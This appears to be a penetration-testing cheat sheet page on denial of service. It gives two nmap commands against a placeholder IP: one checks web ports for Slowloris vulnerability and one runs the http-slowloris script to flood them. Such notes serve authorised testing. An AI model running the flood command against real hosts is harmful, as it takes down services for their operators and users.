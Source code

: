 # 05 - Denial of Service

## 5.1 - Check DoS Vulnerability

```
$ nmap -p 80,443,8000,8080,8443 -Pn --script http-slowloris-check <IP>
```

## 5.2 - Flood The Open Port

```
$ nmap -p 80,443,8000,8080,8443 -Pn --script http-slowloris <IP>
```